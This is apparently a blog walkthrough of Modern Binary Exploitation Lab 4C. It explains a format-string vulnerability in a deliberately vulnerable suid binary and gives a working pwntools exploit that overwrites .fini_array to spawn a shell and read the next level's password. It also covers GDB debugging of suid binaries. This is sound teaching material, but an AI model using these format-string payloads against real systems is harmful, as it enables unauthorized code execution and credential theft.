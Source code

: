 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 4C
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
/*
 *   Format String Lab - C Problem
 *   gcc -z execstack -z norelro -fno-stack-protector -o lab4C lab4C.c
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define PASS_LEN 30

int main(int argc, char *argv[])
{
    char username[100] = {0};
    char real_pass[PASS_LEN] = {0};
    char in_pass[100] = {0};
    FILE *pass_file = NULL;
    int rsize = 0;

    /* open the password file */
    pass_file = fopen("/home/lab4B/.pass", "r");
    if (pass_file == NULL) {
        fprintf(stderr, "ERROR: failed to open password file\n");
        exit(EXIT_FAILURE);
    }

    /* read the contents of the password file */
    rsize = fread(real_pass, 1, PASS_LEN, pass_file);
    real_pass[strcspn(real_pass, "\n")] = '\0';  // strip \n
    if (rsize != PASS_LEN) {
        fprintf(stderr, "ERROR: failed to read password file\n");
        exit(EXIT_FAILURE);
    }

    /* close the password file */
    fclose(pass_file);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("-----------------------------------------");
    puts("- You must login to access this system. -");
    puts("-----------------------------------------");

    /* read username securely */
    printf("--[ Username: ");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = '\0';    // strip \n

    /* read input password securely */
    printf("--[ Password: ");
    fgets(in_pass, sizeof(in_pass), stdin);
    in_pass[strcspn(in_pass, "\n")] = '\0';      // strip \n

    puts("-----------------------------------------");

    /* log the user in if the password is correct */
    if(!strncmp(real_pass, in_pass, PASS_LEN)){
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
    } else {
        printf(username);
        printf(" does not have access!\n");
        exit(EXIT_FAILURE);
    }

    return EXIT_SUCCESS;
}
{% endhighlight %}

The source code comment reveals that it is compiled with **RELRO** completely disabled. `checksec` confirms this.

{% highlight bash %}
lab4C@warzone:/levels/lab04$ gdb -q ./lab4C
Reading symbols from ./lab4C...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
{% endhighlight %}

In addition, we see that there is a format string vulnerability that is triggered in the second to last `printf()` call:

{% highlight c %}
printf(username);
{% endhighlight %}

This format string vulnerability should give us an arbitrary write-what-where primitive.

Because RELRO is fully is disabled, we are able to overwrite a `.fini_array` entry. For the uninitiated, the `.fini_array` is the new replacement for the old `.dtors` section and is just an array of pointers to destructors that are called just before the `main()` function exits or returns. 
**All** binaries that are compiled with GCC contain either a `.fini_array` or a `.dtors` section. 

We can see that the `.fini_array` section in our binary contains only 1 entry.

{% highlight bash %}
lab4C@warzone:/levels/lab04$ objdump -s -j .fini_array ./lab4C

./lab4C:     file format elf32-i386

Contents of section .fini_array:
 8049de4 e0870408                             ....         
{% endhighlight %}

In addition, if we look at the disassembly of `main()` we can see a good target to redirect our flow of execution to:

{% highlight text %}
0x08048acb <+670>:	call   0x8048720 <strncmp@plt>
0x08048ad0 <+675>:	test   eax,eax
0x08048ad2 <+677>:	jne    0x8048af9 <main+716>
0x08048ad4 <+679>:	lea    eax,[esp+0x94]
0x08048adb <+686>:	mov    DWORD PTR [esp+0x4],eax
0x08048adf <+690>:	mov    DWORD PTR [esp],0x8048cc4
0x08048ae6 <+697>:	call   0x8048660 <printf@plt>
0x08048aeb <+702>:	mov    DWORD PTR [esp],0x8048cd4
0x08048af2 <+709>:	call   0x80486d0 <system@plt>
{% endhighlight %}

To summarize, we will use the format string vulnerability to overwrite the `.fini_array` entry to direct execution to the `0x08048ad4` basic block which will eventually call `system("/bin/sh")`, giving us a shell.

The following script achieves this. 

## Solution

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

'''
python -c 'print "AAAA"+".%08x"*3+".%35508x%hn"+"\n"+"BB"+"\xe4\x9d\x04\x08"+"\n"' | ./lab4C
'''
def exploit(r):
  username = "AAAA"+".%08x"*3+".%35508x%hn"+"\n"
  password = "BB"+"\xe4\x9d\x04\x08"+"\n"
  print r.recv(1024)
  r.send(username) 
  r.send(password)
  r.interactive()

if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['/levels/lab04/lab4C'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}

{% highlight bash %}
                                                                                                                                       42420000 does not have access!
Greetings, !
lab4A  lab4A.c    lab4B  lab4B.c    lab4C  lab4C.c
$ cat /home/lab4B/.pass
bu7_1t_w4sn7_brUt3_f0rc34b1e!
{% endhighlight %}

## Addendum
As a side note, one obstacle I did have to overcome was being able to debug this suid binary in GDB.
When suid binaries run in GDB, they do so without their elevated permissions. 
Therefore, `lab4C` wasn't able to open the `/home/lab4B/.pass` file while being debugged, causing the program to terminate prematurely.
To bypass this issue, I created a fake password file, `/tmp/lab4c/hellow`, set a breakpoint at the `fopen()` call, ran the program until it hit the breakpoint, and patched the value of the string.

{% highlight bash %}
gdb-peda$ b *main+230
Breakpoint 1 at 0x8048913
gdb-peda$ r
Starting program: /levels/lab04/lab4C 
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0x0 
EDX: 0xbffff656 --> 0x0 
ESI: 0x1c 
EDI: 0xbffff654 --> 0x0 
EBP: 0xbffff6f8 --> 0x0 
ESP: 0xbffff5e0 --> 0x8048bc2 ("/home/lab4B/.pass")
EIP: 0x8048913 (<main+230>:	call   0x8048710 <fopen@plt>)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80488f9 <main+204>:	mov    DWORD PTR [esp+0xf8],0x0
   0x8048904 <main+215>:	mov    DWORD PTR [esp+0x4],0x8048bc0
   0x804890c <main+223>:	mov    DWORD PTR [esp],0x8048bc2
=> 0x8048913 <main+230>:	call   0x8048710 <fopen@plt>
   0x8048918 <main+235>:	mov    DWORD PTR [esp+0xfc],eax
   0x804891f <main+242>:	cmp    DWORD PTR [esp+0xfc],0x0
   0x8048927 <main+250>:	jne    0x804895a <main+301>
   0x8048929 <main+252>:	mov    eax,ds:0x8049f20
Guessed arguments:
arg[0]: 0x8048bc2 ("/home/lab4B/.pass")
arg[1]: 0x8048bc0 --> 0x682f0072 ('r')
[------------------------------------stack-------------------------------------]
0000| 0xbffff5e0 --> 0x8048bc2 ("/home/lab4B/.pass")
0004| 0xbffff5e4 --> 0x8048bc0 --> 0x682f0072 ('r')
0008| 0xbffff5e8 --> 0x0 
0012| 0xbffff5ec --> 0x0 
0016| 0xbffff5f0 --> 0x0 
0020| 0xbffff5f4 --> 0x0 
0024| 0xbffff5f8 --> 0x0 
0028| 0xbffff5fc --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048913 in main ()
gdb-peda$ patch 0x8048bc2 "/tmp/lab4c/hellow"
Written 17 bytes to 0x8048bc2
{% endhighlight %} 
